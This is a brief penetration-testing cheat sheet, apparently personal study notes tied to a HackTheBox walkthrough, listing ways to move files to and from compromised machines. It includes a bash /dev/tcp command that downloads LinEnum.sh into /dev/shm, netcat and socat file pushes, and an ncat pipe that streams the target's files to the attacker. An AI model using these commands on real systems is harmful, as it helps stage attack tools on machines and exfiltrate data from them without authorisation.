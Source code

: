 # Linux File Transfers


## Bash 
Check `mount` if /`dev/shm/` has `no exec`
```bash
bash -c "cat < /dev/tcp/$IP/$PORT > /dev/shm/LinEnum.sh"
# bash -c 'If default shell is not bash'
```
[Ippsec Reddish Video](https://www.youtube.com/watch?v=Yp4oxoQIBAM)

## Netcat
[[Netcat-Cheatsheet]]
```powershell
# Listener on Windows system
nc -lvnp $PORT > tranfered.exe
# Push wget.exe onto windows system
nc -nv $IP $PORT < /usr/share/windows-resources/binaries/wget.exe
```

## Ncat

Target machine
```bash
tar cf - . | ncat $IP $PORT
```
Attack machine
```bash
ncat -nlvp $PORT | tar xf -
```

## Socat
Use [[Socat-Cheatsheet]], Host with:
```bash
sudo socat TCP4-LISTEN:$PORT,fork file:$filename
```
Transfer with
```powershell
socat TCP4:$IP:$PORT file:$filename,create
```

## SMB Cif-Utils
```shell
sudo mount -t cifs -o 'user=$username,password=$password' //$IP/share /mnt/sharename
```

[Kali Cif-Utils]
